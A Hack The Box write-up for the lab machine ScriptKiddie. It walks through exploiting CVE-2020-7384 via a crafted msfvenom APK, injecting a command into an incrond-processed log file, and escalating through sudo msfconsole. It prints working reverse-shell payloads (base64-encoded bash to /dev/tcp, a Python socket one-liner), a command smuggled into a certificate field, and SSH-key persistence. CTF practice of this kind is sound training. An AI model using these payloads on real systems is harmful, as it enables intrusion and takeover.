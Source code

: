 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [ScriptKiddie](https://app.hackthebox.com/machines/ScriptKiddie)

> [!tip]- Summary with Spoilers
> - This machine exposed a Metasploit installation, which I used to exploit a Git-related vulnerability for initial access as `kid`.
> - I moved laterally to `pwn` by injecting malicious input into a writable log file processed by an `incrond` job.
> - Privilege escalation was achieved by leveraging a misconfigured `msfconsole` binary, granting a `root` shell.

## Enumerate

```console
$ nmap -n -sCV -T4 -p1-65535 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:35 CDT
Nmap scan report for 10.10.10.226
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 724.14 seconds
```

Port 5000 is running a simple web service on [Werzkzeug](https://werkzeug.palletsprojects.com/en/3.0.x/), a Python `httpd` framework.

There are no apparent exploits available for the services themselves, but the page offers an opportunity:

![](_/htb-scriptkiddie-20231019-1.png)

## Exploit

The `payloads` section offers an opportunity to pass a malicious `msfvenom` template, per [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). MSF now offers [a module](https://www.exploit-db.com/exploits/49491) to exploit this vulnerability, but I'll use [this script](https://github.com/nikhil1232/CVE-2020-7384/blob/main/CVE-2020-7384.sh) to generate the payload:

```console
$ sh cve-2020-7384.sh 
-e 
\x1B[31mCVE-2020-7384
-e 
Enter the LHOST: 
10.10.16.5
-e 
Enter the LPORT: 
443
-e 
Select the payload type
1. nc
2. bash
3. python
4. python3

select: 2
-e 
Enter the Directory (absolute path) where you would like to save the apk file (Hit Enter to use the current directory): 

  adding: emptyfile (stored 0%)
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Generating 2,048 bit RSA key pair and self-signed certificate (SHA256withRSA) with a validity of 90 days
        for: CN="'|echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNS80NDMgMD4mMSIK | base64 -d | sh #"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
jar signed.

Warning: 
The signer's certificate is self-signed.
The SHA1 algorithm specified for the -digestalg option is considered a security risk and is disabled.
The SHA1withRSA algorithm specified for the -sigalg option is considered a security risk and is disabled.
POSIX file permission and/or symlink attributes detected. These attributes are ignored when signing and are not protected by the signature.
-e 
New APK file Generated
Location: "[...]/exploit.apk"
[...]

$ ls -l exploit.apk 
-rw-r----- 1 e e 2075 Oct 19 13:49 exploit.apk
```

I set up a `nc` listener and the feed `exploit.apk` to the web service:

![](_/htb-scriptkiddie-20231019-2.png)

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 39690
bash: cannot set terminal process group (897): Inappropriate ioctl for device
bash: no job control in this shell
kid@scriptkiddie:~/html$ cat /home/kid/user.txt
cat /home/kid/user.txt
787100[...]
```

I add my public key to `authorized_keys` to get a proper interactive shell:

```console
kid@scriptkiddie:~/html$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> ~/.ssh/authorized_keys
```

```console
$ ssh kid@$t
[...]
Last login: Wed Feb  3 12:07:35 2021 from 10.10.14.4
kid@scriptkiddie:~$ 
```

## Escalate

From here I see two login users, `kid` and `pwn`. In the latter's home directory there's this script:

```console
kid@scriptkiddie:~$ cat /home/pwn/scanlosers.sh 
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Given that the user `kid` has write access to the input for this script, I'm able to move laterally to the `pwn` user. The script appears to be triggered via [incrond](https://linux.die.net/man/8/incrond). Here's the payload:

```console
kid@scriptkiddie:~$ cat x
1 1 `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.5",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
kid@scriptkiddie:~$ cat x > logs/hackers
```

On the listener:

```console
$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.226] 58740
$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
sh: 2: cannot create .ssh/authorized_keys: Permission denied
$ mv .ssh/authorized_keys ./
mv .ssh/authorized_keys ./
$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AA[...]' >> >> .ssh/authorized_keys
echo 'ssh-ed25519
```

The file `.ssh/authorized_keys` was immutable (I'm not sure the mechanism, since `lsattr` didn't have the `i` flag) but I was able to move it out of the way and create a new `authorized_keys` file. Now with a proper shell I check `sudo` privileges:

```console
$ ssh pwn@$t
[...]
Last login: Thu Jan 28 17:52:15 2021 from 10.10.14.7
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ 
```

`msfconsole` is trivially exploitable for a `root` shell:

```console
pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole -q -x /usr/bin/bash
[*] exec: /usr/bin/bash

root@scriptkiddie:/home/pwn# cat /root/root.txt
cb08fe[...]
```
